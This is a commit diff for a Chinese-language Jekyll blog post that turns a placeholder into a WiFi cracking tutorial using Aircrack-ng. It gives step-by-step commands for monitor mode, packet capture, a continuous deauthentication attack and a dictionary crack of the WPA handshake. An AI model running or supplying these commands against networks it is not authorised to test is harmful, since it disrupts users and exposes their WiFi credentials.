

Before and after one commit to benheart/benheart.github.io, a Jekyll site: the page built from _posts/2015-08-21-wifi-attack-guide.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Modify wifi attack guide post.

```diff
--- a/_posts/2015-08-21-wifi-attack-guide.md
+++ b/_posts/2015-08-21-wifi-attack-guide.md
@@ -1,9 +1,31 @@
 ---
 layout: post
-title: Wifi 破解教程
-description: 网络协议是互联网的基石，下面是对常用的几种网络协议进行简单的整理分析。
-key: TCP, HTTP
+title: 利用 Aircrack-ng 进行 Wifi 破解
+description: Aircrack-ng 是一个与 802.11 标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP 和 WPA/WPA2-PSK 破解。
+key: Aircrack-ng, Wifi, Attack
 ---
 
-### 标题
-未完待续
+### 工具
+- Linux 主机
+- [Aircrack-ng](https://www.aircrack-ng.org/){:target="_blank"}
+- 无线网卡
+
+### 步骤
+1. 查看网卡列表: iwconfig
+2. 启用用来破解的网卡: airmon-ng start <网卡名>
+3. 重新查看网卡列表，指定网卡启用后网卡名会变: iwconfig
+4. 查看 wifi 列表: airodump-ng <网卡名>
+5. 抓取目标 wifi 的网络包并存储: airodump-ng -c <channel> --bssid <wifi 破解目标的bssid> -w <文件名> <网卡名>
+6. 获取握手包，直到出现 WPA handshake: aireplay-ng -0 0 -a <bssid> <网卡名>
+7. 利用字典破解 .cap 数据包: aircrack-ng -w <字典名> -b <bssid> 文件名*.cap
+
+### 样例
+{% highlight shell %}
+iwconfig
+airmon-ng start wlp0s20u1
+iwconfig
+airodump-ng wlp0s20u1mon
+airodump-ng -c 6 --bssid C0:61:18:29:9D:28 -w wifiname wlp0s20u1mon
+aireplay-ng -0 0 -a C0:61:18:29:9D:28 wlp0s20u1mon
+aircrack-ng -w wordlist.txt -b C0:61:18:29:9D:28 wifiname*.cap
+{% endhighlight %}
```
